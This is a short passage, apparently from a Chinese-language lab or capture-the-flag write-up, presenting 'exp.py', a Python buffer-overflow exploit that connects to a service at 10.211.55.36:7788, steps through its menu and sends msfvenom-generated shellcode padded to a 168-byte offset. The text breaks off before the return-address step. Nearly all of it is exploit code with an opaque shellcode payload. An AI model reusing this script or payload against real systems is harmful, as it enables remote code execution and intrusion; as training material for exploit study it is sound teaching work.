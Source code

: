 ### 最终代码：exp.py

![image-20231113002840393](./assets/image-20231113002840393.png)

```py
# 参考大余老师的：

import socket
 
# Target related variables
remotehost = "10.211.55.36"
remoteport = 7788
menuoption = 3
agentid = 48093572
 
# Default recv size
recvsize = 512
 
# Connnect to remote host
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((remotehost, remoteport))
client.recv(recvsize)
client.send("{0}\n".format(agentid))
client.recv(recvsize)
client.send("{0}\n".format(menuoption))
client.recv(recvsize)
 
# Payload genereated by Msfvenom, to be force fed into reporting tool
buf =  b""
buf += b"\xdb\xda\xd9\x74\x24\xf4\xbb\x99\x95\x96\x1f\x58\x33"
buf += b"\xc9\xb1\x12\x31\x58\x17\x83\xe8\xfc\x03\xc1\x86\x74"
buf += b"\xea\xc0\x73\x8f\xf6\x71\xc7\x23\x93\x77\x4e\x22\xd3"
buf += b"\x11\x9d\x25\x87\x84\xad\x19\x65\xb6\x87\x1c\x8c\xde"
buf += b"\x1d\x0c\x59\x0d\x4a\xb0\xa6\x2b\x80\x3d\x47\xfb\xf2"
buf += b"\x6d\xd9\xa8\x49\x8e\x50\xaf\x63\x11\x30\x47\x12\x3d"
buf += b"\xc6\xff\x82\x6e\x07\x9d\x3b\xf8\xb4\x33\xef\x73\xdb"
buf += b"\x03\x04\x49\x9c"
 
# Buffer is too small to trigger overflow. Fattening it up!
# 168 is the offset I found using pattern_offset
buf += "A" * (168 - len(buf))
 
# EAX call I made note of earlier in this segment
```